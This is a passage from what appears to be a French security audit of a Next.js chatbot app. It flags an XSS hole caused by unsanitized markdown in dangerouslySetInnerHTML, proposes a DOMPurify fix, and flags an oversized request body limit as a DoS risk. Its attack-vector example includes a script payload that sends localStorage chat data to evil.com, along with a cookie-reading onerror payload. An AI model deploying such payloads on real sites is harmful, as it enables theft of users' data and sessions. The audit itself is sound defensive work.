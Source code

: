 #### Problème Actuel
```tsx
// ❌ DANGEREUX : Permet l'injection de scripts malveillants
<div
  className="h-auto"
  dangerouslySetInnerHTML={{
    __html: marked.parse(typeof message === "string" ? message : "")
  }}
/>
```

**Vecteur d'attaque** :
```javascript
// Un utilisateur malveillant peut injecter :
"<img src=x onerror='alert(document.cookie)'>"
// ou
"<script>fetch('https://evil.com/steal?data='+localStorage.getItem('chatBotMessagesAnki'))</script>"
```

#### Solution Recommandée
```tsx
// ✅ SÉCURISÉ : Utilise DOMPurify (déjà installé)
import DOMPurify from 'dompurify';

<div
  className="h-auto"
  dangerouslySetInnerHTML={{
    __html: DOMPurify.sanitize(
      marked.parse(typeof message === "string" ? message : ""),
      {
        ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'code', 'pre', 'ul', 'ol', 'li'],
        ALLOWED_ATTR: ['class']
      }
    )
  }}
/>
```

**Action**: ⚡ **Corriger immédiatement avant mise en production**

---

### 🚨 CRITIQUE #2: Vecteur d'Attaque DoS (Denial of Service)

**Fichier**: [next.config.ts:9](next.config.ts#L9)
**Sévérité**: 🔴 **CRITIQUE**
**Impact**: Surcharge serveur, crash application, coûts cloud exponentiels

#### Problème Actuel
```typescript
// ❌ DANGEREUX : Permet l'upload de 4GB par requête !
experimental: {
  serverActions: {
    bodySizeLimit: '4000mb',  // 4 GIGABYTES !
  },
}
```
